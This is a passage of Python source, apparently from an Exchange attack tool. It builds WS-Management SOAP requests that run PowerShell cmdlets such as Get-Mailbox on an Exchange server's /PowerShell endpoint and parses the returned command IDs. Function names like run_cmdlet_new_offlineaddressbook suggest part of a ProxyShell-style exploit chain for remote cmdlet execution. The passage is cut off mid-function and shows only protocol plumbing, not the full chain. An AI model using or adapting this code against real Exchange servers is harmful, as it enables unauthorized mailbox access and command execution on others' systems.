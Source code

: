 ```python
		<B N="_useRunspaceHost">true</B></MS>
	</Obj>
	<B N="IsNested">false</B>
</MS></Obj>""".format(name=name)
	c = PSCommand(3, RPID, PID, commandData)
	command_arguments = base64.b64encode(c.serialize())
	MessageID = uuid.uuid4()
	OperationID = uuid.uuid4()
	request_data = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd">
	<s:Header>
		<a:To>https://exchange16.domaincorp.com:443/PowerShell?PSVersion=5.1.19041.610</a:To>
		<a:ReplyTo>
			<a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
		</a:ReplyTo>
		<a:Action s:mustUnderstand="true">http://schemas.microsoft.com/wbem/wsman/1/windows/shell/Command</a:Action>
		<w:MaxEnvelopeSize s:mustUnderstand="true">512000</w:MaxEnvelopeSize>
		<a:MessageID>uuid:{MessageID}</a:MessageID>
		<w:Locale xml:lang="en-US" s:mustUnderstand="false" />
		<p:DataLocale xml:lang="en-US" s:mustUnderstand="false" />
		<p:SessionId s:mustUnderstand="false">uuid:{SessionId}</p:SessionId>
		<p:OperationID s:mustUnderstand="false">uuid:{OperationID}</p:OperationID>
		<p:SequenceId s:mustUnderstand="false">1</p:SequenceId>
		<w:ResourceURI xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd">http://schemas.microsoft.com/powershell/Microsoft.Exchange</w:ResourceURI>
		<w:SelectorSet xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd">
			<w:Selector Name="ShellId">{ShellId}</w:Selector>
		</w:SelectorSet>
		<w:OperationTimeout>PT180.000S</w:OperationTimeout>
	</s:Header>
	<s:Body>
	<rsp:CommandLine xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" CommandId="{CommandId}" >
		<rsp:Command>Get-Mailbox</rsp:Command>
		<rsp:Arguments>{command_arguments}</rsp:Arguments>
	</rsp:CommandLine>
</s:Body>
</s:Envelope>""".format(SessionId=SessionId, MessageID=MessageID, OperationID=OperationID, ShellId=ShellId, CommandId=str(PID), command_arguments=command_arguments)

	r = sendPostRequest(request_data)
	if r.status_code == 200:
		print(r.text)
		doc = xml.dom.minidom.parseString(r.text)
		elements = doc.getElementsByTagName("rsp:CommandId")
		if len(elements) == 0:
			print_error_and_exit("run_cmdlet_new_offlineaddressbook failed with no CommandId return", r)
		CommandId = elements[0].firstChild.nodeValue
		# print "[+] Got CommandId: {CommandId}".format(CommandId=CommandId)
		print ("[+] Got CommandId success")
		return CommandId
	else:
		print_error_and_exit("run_cmdlet_new_offlineaddressbook failed", r)

def get_command_output(SessionId, ShellId, CommandId):
	MessageID = uuid.uuid4()
	OperationID = uuid.uuid4()
```